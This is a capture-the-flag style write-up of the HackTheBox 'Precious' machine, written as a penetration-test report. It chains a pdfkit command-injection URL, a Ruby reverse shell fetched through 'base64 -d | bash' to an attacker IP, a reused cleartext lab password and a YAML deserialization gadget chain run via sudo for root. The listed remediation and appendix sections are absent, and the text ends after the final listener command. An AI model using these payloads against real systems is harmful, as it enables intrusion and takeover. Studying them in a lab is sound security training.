# Precious — HackTheBox Report

| Difficulty | OS | Category |
| ---------- | -- | -------- |
| Easy | Linux | Web |

> Writeup of a retired Precious machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Enumeration](#12-web-enumeration)
  * [1.3. Backend Fingerprinting via PDF Metadata](#13-backend-fingerprinting-via-pdf-metadata)
  * [2.1. Exploitation — Command Injection](#21-exploitation--command-injection)
  * [2.2. Initial Foothold](#22-initial-foothold)
  * [3.1. Lateral Movement — Credential Discovery](#31-lateral-movement--credential-discovery)
  * [3.2. Privilege Discovery](#32-privilege-discovery)
  * [3.3. Insecure Deserialization Exploitation](#33-insecure-deserialization-exploitation)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Precious / IP: 10.129.228.98`
**Platform:** `HackTheBox`
**Date Completed:** `September 12, 2026`
**Assessment Type:** `Web Application / Ruby Backend`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was tasked to perform a penetration test against the Hack The Box Precious target environment. The objective was to evaluate the security posture of a custom Ruby web application and the underlying host, identify exploitable weaknesses, and determine whether an attacker could achieve full system compromise.

The assessment identified three chained vulnerabilities: a known command injection vulnerability in an outdated third-party Ruby library (CVE-2022-25765) that provided an initial foothold, plaintext credentials stored in a Ruby Gem configuration file that enabled lateral movement to a second user, and an insecure deserialization vulnerability in a custom administrative script that allowed escalation to root. By chaining these three weaknesses in sequence, Pheenix Security achieved full compromise of the target host.

Overall, the results indicate a high-risk exposure caused by outdated third-party dependencies, insecure credential storage practices, and unsafe deserialization of untrusted data in custom automation scripts. Immediate remediation should focus on patching the vulnerable library, removing plaintext credentials from configuration files, and correcting the deserialization vulnerability in the privileged script, with follow-up testing to validate the fixes.

---

## Scope

| Host / URL / IP Address | Description |
| ------------------------- | ------------- |
| `Precious / precious.htb / 10.129.228.98` | `Target machine — Linux web server (Ruby / Nginx)` |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service discovery and fingerprinting.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or CVEs.
4. **Exploitation** — gaining an initial foothold.
5. **Lateral Movement** — pivoting to additional users via discovered credentials.
6. **Privilege Escalation** — moving from low-privilege access to root.
7. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool | Purpose |
| ---- | ------- |
| `Nmap` | Port scanning / service enumeration |
| `Browser DevTools` | Response header inspection to fingerprint the backend runtime |
| `ExifTool` | PDF metadata extraction to identify the vulnerable generation library |
| `revshells.com` | Reverse shell payload generation (Ruby, Base64-encoded) |
| `Netcat` | Reverse shell listener |

---

## Assessment Summary (Findings Overview)

The assessment identified an outdated Ruby library vulnerable to unauthenticated command injection, plaintext credentials stored in a Gem configuration file, and an insecure deserialization vulnerability in a custom privileged script. Chaining these three findings resulted in full compromise of the target host. Based on the demonstrated attack path, the overall risk to the assessed environment is **Critical**.

| Severity | Count |
| -------- | ----- |
| Critical | 2 |
| High | 0 |
| Medium | 1 |
| Low | 0 |
| Informational | 0 |

| # | Severity | Finding Name |
| - | -------- | ------------- |
| 1 | Critical | Unauthenticated Command Injection via Vulnerable pdfkit Library (CVE-2022-25765) |
| 2 | Medium | Cleartext Storage of Credentials in Gem Bundler Configuration |
| 3 | Critical | Insecure Deserialization in Privileged Ruby Script |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to root compromise, step by step, with commands and evidence.

### 1.1. Reconnaissance

```
nmap 10.129.228.98 -sC -sV
```



**Findings:** Port 22 (OpenSSH) and port 80 (nginx) open. The site resolves under the domain `precious.htb`.

```
echo '10.129.228.98 precious.htb' | sudo tee -a /etc/hosts
```

---

### 1.2. Web Enumeration

Visiting `precious.htb` revealed a simple web application that converts a submitted URL into a PDF document.



Inspecting the response headers via browser DevTools revealed an `X-Runtime: Ruby` header, indicating the backend is a custom Ruby application (served via Phusion Passenger, per the official HTB write-up).



---

### 1.3. Backend Fingerprinting via PDF Metadata

To learn more about how the backend generates PDFs, a URL pointing to a self-hosted Python HTTP server was submitted to test the conversion feature, and the resulting PDF was downloaded and inspected for metadata clues.

```
python3 -m http.server 8080
```

```
exiftool 3u2ioa39vrzwigp2p5j37q79yuxtsz0m.pdf
```



**Findings:** The `Creator` field identified the PDF generation library as **pdfkit v0.8.6**. This version has a publicly known command injection vulnerability:

- **CVE-2022-25765** — pdfkit (Ruby gem) through version 0.8.6 fails to properly sanitize URLs before passing them to the underlying `wkhtmltopdf` shell command, allowing command injection via shell metacharacters in the URL parameter.
- Public advisory: [GHSA-rhwx-hjx2-x4qr](https://github.com/advisories/GHSA-rhwx-hjx2-x4qr)

---

### 2.1. Exploitation — Command Injection

Tested the command injection vulnerability by submitting a crafted URL containing a shell command substitution string, pointing to an attacker-controlled Python HTTP server:

```
http://test.local/%20`curl http://10.10.14.196:8080/test`
```



**Result:** The callback request (`GET /test`) confirmed the application executed the injected shell command, verifying remote code execution.

**Root cause:** The pdfkit library passes user-supplied URLs directly into a system shell command without sanitizing shell metacharacters (backticks, in this case), allowing arbitrary command execution.

---

### 2.2. Initial Foothold

Generated a Ruby reverse shell payload using [revshells.com](https://revshells.com/), Base64-encoded to safely pass through the URL field:

```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.196",8080))'
```

Submitted the encoded payload via the same command injection vector:

```
http://test.local/%20`echo <base64_payload> | base64 -d | bash`
```

Started a listener and received a shell as the `ruby` user:

```
nc -lvnp 8080
```



Upgraded the shell to a full TTY:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

### 3.1. Lateral Movement — Credential Discovery

Enumerated the `ruby` user's home directory and found a `.bundle` directory, which commonly stores Ruby Gem/Bundler configuration files:

```
cd
ls -la
```



Inspected the Bundler config file inside it:

```
cd .bundle
cat config
```



**Credentials found:** `henry : Q3c1AqGHtoI0aXAYFH`

Reused these credentials over SSH:

```
ssh henry@10.129.228.98
ls
cat user.txt
```



**user.txt:** `23dd1cefbc79779ddddebfc1ff6739d2`

---

### 3.2. Privilege Discovery

Checked for sudo privileges available to `henry`:

```
sudo -l
```



**Findings:** `henry` can run `/usr/bin/ruby /opt/update_dependencies.rb` as root without a password.

Inspected the script's contents:

```
cat /opt/update_dependencies.rb
```



**Findings:** The script reads and compares dependency versions from `dependencies.yml`, loading it via `YAML.load(File.read("dependencies.yml"))`. Critically, the filename is referenced with **no absolute path**, meaning Ruby resolves it relative to the current working directory at execution time — not a fixed, trusted location.

Confirmed this behavior by running the script from a directory without the file present:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```



This confirmed that an attacker able to place a `dependencies.yml` file in the current working directory before running the sudo command controls the file the script loads. Ruby's `YAML.load` (unlike the safer `YAML.safe_load`) is known to be unsafe on untrusted input, as it can instantiate arbitrary Ruby objects — a well-documented insecure deserialization vector.

Checked the installed Ruby version to identify a compatible public deserialization gadget chain:

```
ruby -v
```



---

### 3.3. Insecure Deserialization Exploitation

Created a malicious `dependencies.yml` file in `/tmp` using a known Ruby YAML deserialization gadget chain, which abuses chained `Gem` and `Net` objects to reach `Kernel#system`:

```
touch /tmp/dependencies.yml
```

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```



Ran the privileged script from `/tmp` (where the malicious file resides), confirming code execution as root via the `id` command embedded in the `git_set` field:

```
cd /tmp
sudo /usr/bin/ruby /opt/update_dependencies.rb
```



With code execution as root confirmed, updated the `git_set` field to the same Base64-encoded Ruby reverse shell payload used for the initial foothold:

```
git_set: echo <base64_payload> | base64 -d | bash
```

Started a listener and re-ran the script:

```
nc -lvnp 8080
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

